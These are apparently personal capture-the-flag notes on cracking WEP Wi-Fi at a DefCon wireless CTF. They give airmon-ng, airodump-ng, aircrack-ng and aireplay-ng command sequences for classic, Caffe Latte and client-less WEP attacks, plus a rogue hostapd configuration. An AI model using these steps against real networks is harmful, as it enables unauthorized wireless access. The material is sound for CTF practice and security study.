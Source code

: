 ## Classic WEP

Basically run airodump for 10 minutes and aircrack

sudo airmon-ng

sudo airmon-ng start wlan27

sudo airodump-ng  -w derp --output-format pcap --band ag wlan27mon



# wget https://raw.githubusercontent.com/rfhs/wctf-files/master/wordlist/cyberpunk.words
sudo aircrack-ng -w cyberpunk.words derp0-01.cap


## Caffe Latte (WEP, no AP)

How to recognize?
You might find in airodump-ng that there are probes to ESSIDs that aren't found.
This signals a client-side attack


Begin the Caffe Latte Attack by starting an airodump-ng capture and writing the keystream to an output file:
It helps to know the channel, which is more of an art and needs tweaking by playing with airodump to find what the target is looking for.

airodump-ng -w cafefile --output-format pcap --band a -c 44 wlan29mon

While an airodump-ng capture is running, perform the Caffe-Latte Attack:

to specify the channel, the interface needs to be brought up in airodump with channel specified.

aireplay-ng --caffe-latte -h 02:00:00:00:1E:00 -b 00:13:10:30:24:9C -D wlan30mon

    -h is our card MAC address
    -b is the Access Point MAC (any valid MAC should work)
    -D disables AP detection.

find our own mac with `iw dev`


^ This didn't work for me at DefCon 2020

According to another member used hostapd instead of aireplay

```
interface=wlan31mon
ssid=WCTF_03
channel=44
hw_mode=a
#mana_wpaout=hostapd.hccapx
wep_default_key=1
wep_key1="abcde"
wep_key_len_broadcast="5"
wep_key_len_unicast="5"
wep_rekey_period=300
auth_algs=3
```

put that into my_ha.conf

hostapd my_ha.conf starts the beacon and the original airodump will capture enough IVs for aircrack



## Client-less WEP

aireplay-ng -1 0 -e WCTF_02 -a 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon

aireplay-ng -5 -b 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon

aireplay-ng -4 -b 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon

 aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon
 
aireplay-ng -1 1000 -o 1 -q 10 -e WCTF_02 -a 00:DC:63:ED:5D:00 -h 02:00:00:00:1e:00 wlan30mon